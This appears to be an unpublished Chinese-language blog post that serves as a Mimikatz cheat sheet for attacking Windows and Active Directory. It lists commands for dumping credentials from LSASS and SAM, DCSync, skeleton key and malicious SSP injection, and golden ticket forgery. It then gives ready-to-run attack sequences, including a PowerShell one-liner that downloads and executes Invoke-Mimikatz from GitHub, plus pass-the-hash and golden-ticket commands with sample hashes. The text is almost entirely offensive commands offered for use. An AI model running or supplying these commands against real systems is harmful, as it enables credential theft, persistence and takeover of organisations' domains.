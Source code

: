 ```yaml
---
published: false
---
```


* Do not remove this line (it will not be displayed) 
{:toc}

# 常用的Mimikatz命令及相关功能
[下载链接](http://blog.gentilkiwi.com/mimikatz)

------------------------------


`CLS`---------------------------- 清屏
`CRYPTO::CERTIFICATES` –--------- 列出/导出凭证
`EXIT`--------------------------- 退出
`KERBEROS::GOLDEN` –------------- 创建黄金票证/白银票证/信任票证
`KERBEROS::LIST` ---------------- 列出在用户的内存中所有用户的票证（TGT 和 TGS）。不需要特殊的权限，因为它仅显示当前用户的票证。与 “KLIST” 的功能相似。
`KERBEROS::PTT` ----------------- 票证传递。通常用于注入窃取或伪造的 `KERBEROS` 票证（黄金票证/白银票证/信任票证）。
`LSADUMP::DCSYNC` --------------- 向 DC 发起同步一个对象（获取帐户的密码数据）的质询。无需在 DC 上执行代码。
`LSADUMP::LSA` –----------------- 向 LSA SERVER 质询检索 SAM/AD 的数据（正常或未打补丁的情况下）。可以从 DC 或者是一个LSASS.DMP 的转储文件中导出所有的 ACTIVE DIRECTORY 域凭证数据。同样也可以获取指定帐户的凭证，如 KRBTGT 帐户，使用 /NAME 参数，如：“/NAME:KRBTGT”
`LSADUMP::SAM` ------------------ 获取 SYSKEY 来解密 SAM 的项目数据（从注册表或者 HIVE 中导出）。SAM 选项可以连接到本地安全帐户管理器（SAM）数据库中并能转储本地帐户的凭证。可以用来转储在 WINDOWS 计算机上的所有的本地凭据。
`LSADUMP::TRUST` ---------------- 向 LSA SERVER 质询来获取信任的认证信息（正常或未打补丁的情况下）。为所有相关的受信的域或林转储信任密钥（密码）。
`MISC::ADDSID` –----------------- 将用户帐户添加到 SID 历史记录。第一个值是目标帐户，第二值是帐户/组名（可以是多个）（或 SID ）。
`MISC::MEMSSP` –----------------- 注入恶意的 WNDOWS SSP 来记录本地身份验证凭据。
`MISC::SKELETON` –--------------- 在 DC 中注入万能钥匙（SKELETON KEY） 到 LSASS 进程中。这使得所有用户所使用的万能钥匙修补 DC 使用 “主密码” （又名万能钥匙）以及他们自己通常使用的密码进行身份验证。
`NOGPO::CMD`--------------------- 打开系统的CMD.EXE
`NOGPO::REGEDIT` ---------------- 打开系统的注册表
`NOGPO::TASKMGR`----------------- 打开任务管理器
`PROCESS::LIST`------------------ 列出进程
`PROCESS::SUSPEND 进程名称` ------ 暂停进程
`PROCESS::STOP 进程名称`---------- 结束进程
`PROCESS::MODULES` -------------- 列出系统的核心模块及所在位置
`PRIVILEGE::DEBUG` -–------------ 获得 DEBUG 权限（很多 MIMIKATZ 命令需要 DEBUG 权限或本地 SYSTEM 权限）。
`PRIVILEGE::LIST`---------------- 列出权限列表
`PRIVILEGE::ENABLE`-------------- 激活一个或多个权限
`SYSTEM::USER`------------------- 查看当前登录的系统用户
`SYSTEM::COMPUTER`--------------- 查看计算机名称
`SERVICE::LIST`------------------ 列出系统的服务
`SERVICE::REMOVE`---------------- 移除系统的服务
`SERVICE::START STOP 服务名称`---- 启动或停止服务
`SEKURLSA::WDIGEST`-------------- 获取本地用户信息及密码
`SEKURLSA::TSPKG`---------------- 获取TSPKG用户信息及密码
`SEKURLSA::EKEYS` –-------------- 列出 KERBEROS 密钥
`SEKURLSA::KERBEROS` –----------- 列出所有已通过认证的用户的 KERBEROS 凭证（包括服务帐户和计算机帐户）
`SEKURLSA::KRBTGT` –------------- 获取域中 KERBEROS 服务帐户（KRBTGT）的密码数据
`SEKURLSA::LOGONPASSWORDS` –----- 列出所有可用的提供者的凭据。这个命令通常会显示最近登录过的用户和最近登录过的计算机的凭证。
`SEKURLSA::PTH` –---------------- HASH 传递 和 KEY 传递（注：OVER-PASS-THE-HASH 的实际过程就是传递了相关的 KEY(S)）
`SEKURLSA::TICKETS` –------------ 列出最近所有已经过身份验证的用户的可用的 KERBEROS 票证，包括使用用户帐户的上下文运行的服务和本地计算机在 AD 中的计算机帐户。与 KERBEROS::LIST 不同的是 SEKURLSA 使用内存读取的方式，它不会受到密钥导出的限制。
`TS::SESSIONS`------------------- 显示当前的会话
`TS::PROCESSES`------------------ 显示进程和对应的PID情况等
`TOKEN::LIST` –------------------ 列出系统中的所有令牌
`TOKEN::ELEVATE` –--------------- 假冒令牌。用于提升权限至 SYSTEM 权限（默认情况下）或者是发现计算机中的域管理员的令牌。
`TOKEN::ELEVATE /DOMAINADMIN` –-- 假冒一个拥有域管理员凭证的令牌。




-------------------------------------------------

常用

# 获取本机信息

* 直接获取内存口令 mimikatz：
`privilege::debug`
`sekurlsa::logonpasswords`

* 通过内存文件获取口令 使用procdump导出lsass.dmp mimikatz：
`sekurlsa::minidump lsass.dmp`
`sekurlsa::logonPasswords full`

* 通过powershell加载mimikatz获取口令
`powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz`

参考[3gstudent大神](http://static.hx99.net/static/drops/tips-7547.html):

`ms14-068.exe -u -p -s -d`
`kerberos::ptc test.ccache`

* 导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份（之前文章有介绍） mimikatz：
`lsadump::sam SYSTEM.hiv SAM.hiv`

# 维持域控权限

* Skeleton Key mimikatz：
`privilege::debug`
`misc::skeleton`

* golden ticket mimikatz：
`lsadump::lsa /patch`


* (Golden Ticket)生成万能票据： mimikatz：
`kerberos::golden /user:Administrator /domain:test.local /sid:S-1-5-21-2848411111-3820811111-1717111111 /krbtgt:d3b949b1f4ef947820f0950111111111 /ticket:test.kirbi`

* 导入票据： mimikatz：
`kerberos::ptt test.kirbi`

* Pass-The-Hash mimikatz：
`sekurlsa::pth /user:Administrator /domain:test.local /ntlm:cc36cf7a8514893efccd332446158b1a`

[mimikittenz](https://github.com/putterpanda/mimikittenz)是一款ps的抓密码的工具
![post1]({{ site.baseurl }}/images/post1.jpg)
